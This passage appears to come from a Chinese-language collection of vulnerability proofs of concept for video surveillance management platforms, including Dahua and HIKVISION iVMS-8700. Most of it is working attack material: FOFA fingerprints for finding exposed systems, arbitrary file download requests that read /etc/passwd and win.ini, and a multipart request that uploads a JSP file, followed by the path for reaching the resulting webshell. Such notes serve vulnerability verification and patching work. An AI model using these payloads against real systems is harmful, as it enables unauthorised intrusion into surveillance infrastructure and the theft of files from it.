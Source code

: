 ##### user_save.action 任意文件上传 ✅

漏洞指纹：

```
POST /admin/user_save.action
```

```
POST /WPMS/getPublicKey
```

#### 大华 城市安防监控系统平台管理 

FOFA：

```
"attachment_downloadByUrlAtt.action"
```

##### attachment_downloadByUrlAtt.action 任意文件下载 ✅

poc：

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

#### HIKVISION iVMS-8700综合安防管理平台

FOFA：

```
icon_hash="-911494769"
```

##### 任意文件下载 ✅

验证POC，token 为 URL md5：

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

##### 任意文件上传 ✅

发送请求包上传文件：

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

访问webshell：

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```


